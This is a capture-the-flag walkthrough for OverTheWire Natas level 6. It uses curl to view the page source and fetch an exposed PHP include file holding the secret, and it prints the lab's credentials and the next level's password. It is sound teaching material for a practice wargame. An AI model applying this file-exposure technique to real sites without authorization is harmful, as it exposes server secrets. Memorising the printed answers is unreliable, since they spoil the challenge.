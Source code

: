 # Natas Level 6

You can watch the walkthrough for this level here:  
[![YouTube](https://img.shields.io/badge/YouTube-Walkthrough-red?logo=youtube)](https://www.youtube.com/watch?v=C_kIMOPnWOg&ab_channel=Gabahack)

> This video shows my full process solving (in Spanish) Level 6 from scratch, including the obstacles and mistakes I faced along the way. Some walkthroughs might be longer or shorter depending on the complexity of the level or how quickly I find the solution.

---

## 🔍 Exploration

We start by checking the HTML content of this level using the `curl` command:

```bash
❯ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned  http://natas6.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "0RoJwHdSKWFTYR5WuiAewauSuNaBXned" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">


<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
This is how the page looks in Mozilla:

![img0](Images/Natas6_0.png)

The page has an input for the secret, and a link to view the source code:

```bash
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We see that the code includes a file called secret.inc and compares its content with the user’s input.


## 💣 Exploitation

Let’s read the file that the page includes:
```bash
❯ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned  http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Now that we know the secret, we can submit it through the form:

![img1](Images/Natas6_1.png)

And we get access to the password for the next level:

![img2](Images/Natas6_2.png)

## 🔐 Password for Natas 7

bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
